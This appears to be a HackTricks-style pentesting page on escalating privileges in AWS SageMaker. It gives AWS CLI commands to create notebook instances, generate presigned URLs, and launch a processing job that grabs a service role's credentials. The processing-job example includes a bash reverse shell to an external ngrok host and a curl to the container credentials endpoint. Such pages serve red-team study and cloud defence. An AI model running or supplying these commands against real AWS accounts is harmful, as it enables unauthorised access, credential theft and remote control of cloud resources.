 # AWS - Sagemaker Privesc

## AWS - Sagemaker Privesc

{{#include ../../../banners/hacktricks-training.md}}

### `iam:PassRole` , `sagemaker:CreateNotebookInstance`, `sagemaker:CreatePresignedNotebookInstanceUrl`

Start creating a noteboook with the IAM Role to access attached to it:

```bash
aws sagemaker create-notebook-instance --notebook-instance-name example \
    --instance-type ml.t2.medium \
    --role-arn arn:aws:iam::<account-id>:role/service-role/<role-name>
```

The response should contain a `NotebookInstanceArn` field, which will contain the ARN of the newly created notebook instance. We can then use the `create-presigned-notebook-instance-url` API to generate a URL that we can use to access the notebook instance once it's ready:

```bash
aws sagemaker create-presigned-notebook-instance-url \
    --notebook-instance-name <name>
```

Navigate to the URL with the browser and click on \`Open JupyterLab\`\` in the top right, then scroll down to “Launcher” tab and under the “Other” section, click the “Terminal” button.

Now It's possible to access the metadata credentials of the IAM Role.

**Potential Impact:** Privesc to the sagemaker service role specified.

### `sagemaker:CreatePresignedNotebookInstanceUrl`

If there are Jupyter **notebooks are already running** on it and you can list them with `sagemaker:ListNotebookInstances` (or discover them in any other way). You can **generate a URL for them, access them, and steal the credentials as indicated in the previous technique**.

```bash
aws sagemaker create-presigned-notebook-instance-url --notebook-instance-name <name>
```

**Potential Impact:** Privesc to the sagemaker service role attached.

### `sagemaker:CreateProcessingJob,iam:PassRole`

An attacker with those permissions can make **sagemaker execute a processingjob** with a sagemaker role attached to it. The attacked can indicate the definition of the container that will be run in an **AWS managed ECS account instance**, and **steal the credentials of the IAM role attached**.

```bash
# I uploaded a python docker image to the ECR
aws sagemaker create-processing-job \
    --processing-job-name privescjob \
    --processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
    --app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
    --role-arn <sagemaker-arn-role>

# In my tests it took 10min to receive the shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #To get the creds
```
